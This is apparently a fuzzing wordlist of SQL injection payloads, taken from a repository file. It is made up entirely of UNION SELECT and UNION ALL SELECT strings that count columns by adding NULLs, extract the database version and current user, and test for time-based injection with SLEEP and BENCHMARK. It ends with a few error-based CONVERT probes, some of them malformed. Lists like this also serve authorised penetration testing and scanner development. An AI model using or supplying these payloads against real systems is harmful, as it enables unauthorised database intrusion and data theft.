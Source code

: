  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 UNION ALL SELECT USER()-- 
 UNION ALL SELECT SLEEP(5)-- 
 UNION ALL SELECT USER(),SLEEP(5)-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5)-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A'))-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT NULL-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))-- 